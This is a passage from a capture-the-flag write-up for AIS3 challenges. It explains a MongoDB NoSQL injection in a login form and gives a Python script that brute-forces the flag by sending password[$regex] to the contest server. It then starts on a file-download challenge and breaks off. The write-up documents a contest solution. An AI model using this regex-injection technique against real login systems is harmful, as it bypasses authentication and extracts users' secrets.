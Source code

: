 Around line 19, it didn't check input type. So we can input something like `{'$regex': myRegex}` (regex of mongodb) instead of real password.

Write a script to BF password(that is: flag) with regex:

```python
import requests
import string

flag = "AIS3{"
charset = string.printable
done = False

while not done:
    for i in range(len(charset)):
        candidate = charset[i]
        escape_candidate = candidate
        if escape_candidate in "()*$+.?^\{\}[]|":
            escape_candidate = "\\" + escape_candidate
        print(candidate)

        response = requests.post(
            "http://chals1.ais3.org:54088/login",
            {
                "username": "admin",
                "password[$regex]": flag + escape_candidate,
            },
        ).text

        if response == "Success owo!":
            flag += candidate
            if candidate == "}":
                done = True
            break
    print(flag)
```

Just remember to escape some special characters to avoid error.(line 12) And everything is fine👍

### TariTari

> Solved 26/292
> Interest ★★
> Difficulty ★☆
> New-knowledge ★
> Disappointment ★★★ (When I saw a flag but not for me QQ)<br>

![](https://i.imgur.com/OXdNd9d.png)

Uploaded some file and got a response like:

```html
<a
    href="/download.php?file=ZjY0MGNjOWQ0ZTQwYzAwODliYmIxZjg1OGI2NWEwMmEudGFyLmd6&amp;name=removed.png.tar.gz.tar.gz"
    >Download</a
>
```
